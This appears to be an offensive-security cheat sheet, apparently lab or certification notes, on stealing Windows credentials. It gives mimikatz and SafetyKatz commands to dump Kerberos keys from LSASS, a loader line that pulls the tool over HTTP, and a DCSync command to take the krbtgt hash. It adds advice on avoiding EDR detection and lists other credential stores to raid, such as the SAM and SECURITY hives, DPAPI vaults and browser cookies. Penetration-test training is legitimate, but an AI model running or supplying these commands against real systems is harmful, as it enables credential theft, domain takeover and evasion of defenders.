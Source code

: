 ### mimikatz
mimikatz can be used to extract credentials, tickets, replay credentials,
play with AD security and more.

Dump credentials
```powershell
mimikatz.exe -Command '"sekurlsa::ekeys"'
```

Using SafetyKatz (Minidump of lsass and PELoader to run mimikatz)
```powershell
Loader.exe -path C:\Users\Public\SafetyKatz.exe "sekurlsa::ekeys"
Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit
```

### DCSync
To extract credentials from the DC without code execution on it, we can
use DCSync

To use the DCSync feature for getting `krbtgt` hash execute the below
command with DA privileges for dcorp domain:
```powershell
Loader.exe SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```


Local Security Authority (`LSA`) is responsible for authentication on a Windows
machine. Local Security Authority Subsystem Service (`LSASS`) is its service.

`LSASS` stores credentials in multiple forms - NT hash, AES, Kerberos tickets and
so on.
- Credentials are stored by `LSASS` when a user:
- Logs on to a local session or RDP
- Uses RunAs
- Run a Windows service
- Runs a scheduled task or batch job
- Uses a Remote Administration tool

The `LSASS` process is therefore a very attractive target. It is also the most monitored process on a Windows machine.

**DONT TOUCH LSASS IF YOURE WORRIED ABOUT GETTING DETECTED**

Some of the credentials that can be extracted without touching `LSASS`.
- SAM hive (Registry) - Local credentials
-  `LSA` Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc. **NOT EVERY EDR WATCHES THE SECURITY HIVE**
- PowerShell console history
- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc.